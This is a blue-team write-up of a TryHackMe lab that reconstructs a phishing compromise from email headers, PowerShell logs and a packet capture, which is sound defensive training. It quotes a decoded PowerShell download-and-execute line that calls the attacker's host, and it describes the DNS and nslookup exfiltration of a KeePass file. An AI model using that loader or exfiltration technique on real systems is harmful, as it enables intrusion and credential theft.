# Boogeyman 1 Writeup

**Machine Name:** Boogeyman 1
**Platform:** TryHackMe
**Difficulty:** Medium

---



## Introduction

This write-up covers my run through Boogeyman 1 on TryHackMe, a blue-team room built around one self-contained incident. The setup: Julianne, a finance employee at Quick Logistics LLC, opens what looks like a routine invoice follow-up from a business partner, B Packaging Inc. The attachment isn't what it claims to be, and her workstation ends up compromised. My job was to play the analyst brought in afterward and rebuild the whole story using only what was left behind.

The room is split into three artifact sets, and I worked through them in that order: **Email Analysis**, **Endpoint Security**, and **Network Traffic Analysis**.

---

## Section: Email Analysis

### Phase 1: Identifying the Phishing Sender

_Objective: identify the email address used to send the phishing email._

Every investigation starts with the delivery mechanism, so the first thing I opened was the email itself in Thunderbird. The header is easy enough to read once you have it in front of you.



_The sender: "Arthur Griffin," writing from a domain built to look like the real B Packaging Inc._

> **Key Finding:** The email came from `agriffin@bpakcaging.xyz`, a single-letter typosquat of the real "bpackaging" domain, close enough to pass a quick glance.

### Phase 2: Identifying the Victim

_Objective: identify the email address the phishing email was sent to._

Same header, next field over.



_The recipient: Julianne Westcott, the finance employee named in the room's brief._

> **Key Finding:** The target was `julianne.westcott@hotmail.com`. The pretext, a follow-up on an unpaid invoice, was picked specifically to get a finance employee to open an attachment without thinking twice.

### Phase 3: Tracing the Mail Relay Service

_Objective: identify the third-party mail relay service used by the attacker, based on the DKIM-Signature and List-Unsubscribe headers._

Faking a sender name is easy. Getting the mail delivered without landing in a spam folder is harder, which is why attackers often ride on legitimate bulk-mail providers. That trail shows up in two header fields: `DKIM-Signature`, which reveals who actually signed the message, and `List-Unsubscribe`, which points to the sending platform itself.



_Both fields point to the same third party._

> **Key Artifact:** The email went out through `ElasticEmail`, a legitimate transactional email service the attacker used to get past basic spam filtering.

### Phase 4: Identifying the File Inside the Attachment

_Objective: identify the name of the file inside the encrypted attachment._

The attachment is a password-protected ZIP, which is a common move. Most scanners that can inspect an ordinary attachment can't open an encrypted one.



_The attached ZIP archive, saved locally for analysis._



_The archive asks for a password on extraction._

> **Key Artifact:** The archive contains one file `Invoice_20230103.lnk`.

### Phase 5: Recovering the Attachment Password

_Objective: identify the password of the encrypted attachment._

The password wasn't hidden particularly well. The attacker just put it in the body of the email, dressed up as a helpful courtesy.



_The line at the bottom of the email that gives it away — the password was never meant to be a secret from the victim._

> **Key Artifact:** The password is `Invoice2023!`, handed over right in the message the victim was already reading.

### Phase 6: Decoding the Malicious Shortcut's Payload

_Objective: based on the result of the lnkparse tool, recover the encoded payload in the Command Line Arguments field._

A `.lnk` file is a Windows shortcut, and shortcuts can carry a full command line as one of their properties, which is what makes them a convenient way to launch something malicious behind an innocent-looking icon. Running the file through `lnkparse` dumps every property it carries, command included.



_The shortcut points internally to `powershell.exe`._



_The command line: PowerShell, launched hidden, with a Base64-encoded (`-enc`) payload attached and an Excel icon standing in front of it._

> **Key Artifact:** Decoding the Base64 blob resolves to `iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')`. A one-liner that pulls a second-stage script from attacker infrastructure and runs it straight in memory.

---

## Section: Endpoint Security

With initial access confirmed, the next artifact was `powershell.json`, a JSON export of PowerShell logging pulled from the victim machine. Instead of scrolling through the raw file, I used `jq` to sort every entry by timestamp and pull out just the `ScriptBlockText` field, deduplicated:

```
cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]' | jq '{ScriptBlockText}' | sort | uniq
```



_One command, and the entire post-exploitation sequence is right there in order. Every question in this section is answered by reading straight off this output._

### Phase 7: Mapping the Attacker's Domains

_Objective: identify the domains used by the attacker for file hosting and C2, in alphabetical order._

Reading through the command history, two domains keep showing up, each doing a different job.



_The first domain, used for command-and-control traffic._



_The second, used to host and serve tools and payloads._

> **Key Finding:** `cdn.bpakcaging.xyz,files.bpakcaging.xyz`. The `cdn` domain handled command-and-control, while `files` hosted the tools and payloads pulled onto the host. A simple split, but an effective one.

### Phase 8: Spotting the Reconnaissance Tool

_Objective: identify the name of the enumeration tool downloaded by the attacker._

Before doing anything destructive, the attacker took stock of the machine. One line in the command history pulls a well-known offensive security tool straight from GitHub.



_A one-line `iex` download-and-execute of Invoke-Seatbelt._

> **Key Finding:** The tool is `Seatbelt`, a widely used C# host-enumeration tool, downloaded to profile the machine before deciding what to do next.

### Phase 9: Locating the Targeted File

_Objective: identify the file accessed by the attacker using the downloaded sq3.exe binary, with the full file path._

From there, the command history shows the attacker moving straight into the victim's user profile and reaching for a specific SQLite database with a small binary called `sq3.exe`.



_Straight into `j.westcott`'s profile, no wandering around._



_`sq3.exe` runs a `SELECT * from NOTE` query against a file called `plum.sqlite`._

> **Key Artifact:** `C:\Users\j.westcott\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`.

### Phase 10: Identifying the Source Application

_Objective: identify the software that uses the file from Phase 9._

The file path itself gives away which application actually owns that database.



_The package name in the path is the giveaway._

> **Key Finding:** `Microsoft Sticky Notes`. The attacker went looking for whatever the user had jotted down and never bothered to protect.

### Phase 11: Identifying the Exfiltrated File

_Objective: identify the name of the exfiltrated file._

A few lines later, the command history shows the attacker reading a completely different file in preparation for exfiltration.



_The file about to leave the network, named directly in the script block._

> **Key Finding:** `protected_data.kdbx`.

### Phase 12: Identifying the File Type

_Objective: identify what type of file uses the .kdbx file extension._

A quick lookup on the extension confirms what kind of file this is.



_Searched directly rather than assumed._

> **Key Finding:** A `KeePass` password database. The stop at Sticky Notes in Phase 9 wasn't a side trip — it's how the attacker found the master password needed to open this file, as the network traffic in Phase 18 confirms.

### Phase 13: Identifying the Exfiltration Encoding

_Objective: identify the encoding used during the exfiltration attempt of the sensitive file._

Getting a file off a monitored network without tripping an alert usually means staying off the traffic that gets watched closely. The log shows the attacker converting the file before sending it anywhere.



_The stolen file, turned into a plain hex string byte by byte._

> **Key Finding:** Hex encoding.

### Phase 14: Identifying the Exfiltration Tool

_Objective: identify the tool used for exfiltration._

That hex string then gets split into chunks and pushed out through a command-line DNS utility, called in a loop.



_`nslookup` called against the attacker's domain, once per chunk of hex data._

> **Key Finding:** `nslookup` a channel most perimeter defenses don't inspect the way they inspect HTTP.

---

## Section: Network Traffic Analysis

### Phase 15: Identifying the C2 Server Software

_Objective: identify the software used by the attacker to host its presumed file/payload server._

With the endpoint side reconstructed, I switched to the packet capture to check the logs against the wire. Filtering on the attacker's IP address turns up the full download sequence: the second-stage script, then Seatbelt, then the `sq3.exe` binary.



_Every tool the attacker pulled onto the host, sitting there as plain HTTP GET requests._



_The response header on the last of those downloads gives away the server software._

> **Key Finding:** Python a plain `SimpleHTTP` server, judging by the response header.

### Phase 16: Identifying the C2 HTTP Method

_Objective: identify the HTTP method used by the C2 for the output of the commands executed by the attacker._

Filtering the capture on the C2 domain instead of the IP shows a run of ordinary GET requests, with one line that stands out.



_A single POST request in a run of GETs._

> **Key Finding:** POST used to send command output back to `cdn.bpakcaging.xyz`, consistent with a lightweight, script-driven C2 setup.

### Phase 17: Confirming the Exfiltration Protocol

_Objective: identify the protocol used during the exfiltration activity._

This one doesn't need a new screenshot — it falls straight out of Phase 14. The endpoint logs already showed the stolen file being pushed out through `nslookup`, a command-line tool that exists to query DNS servers.

> **Key Finding:** DNS. The tool and the protocol are two sides of the same answer.

### Phase 18: Recovering the Exfiltrated File's Password

_Objective: identify the password of the exfiltrated file._

The `sq3.exe` query from Phase 9 didn't just read the Sticky Notes database. It sent the results back to the attacker over HTTP. Filtering the capture on that binary and following the stream shows exactly what came back.



_The request and response pair for the Sticky Notes query._



_The full request line, matching the `SELECT * from NOTE` query from the endpoint logs._



_The response comes back as a long run of decimal numbers instead of plain text._



_Decoding those numbers recovers the note's contents in full._

> **Key Artifact:** `%p9^3!lL^Mz47E2GaT^y`. The user had written their KeePass master password into a Sticky Note. Exactly the kind of thing the attacker went looking for back in Phase 9.

### Phase 19: Recovering the Credit Card Number

_Objective: identify the credit card number stored inside the exfiltrated file._

The last step was reversing Phase 13 and 14 from the network side: pulling the hex-encoded file back out of the DNS queries it was smuggled through. I used `tshark` to isolate the right traffic one filter at a time — every query touching the attacker's domain, then just the data-bearing subdomain labels, then a cleanup pass to drop noise and duplicates.



_The raw query names, long hex-looking labels mixed in with the tool downloads._



_Cut down to just the subdomain portion of each query._



_The labels belonging to the tool downloads, filtered out._



_A clean, deduplicated list of hex chunks, in query order._



_The chunks stitched into one unbroken hex string, ready to decode._



_Decoding the hex string rebuilds the binary data, saved locally as `file.kdbx`._



_The reconstructed database opens with the password recovered in Phase 18._

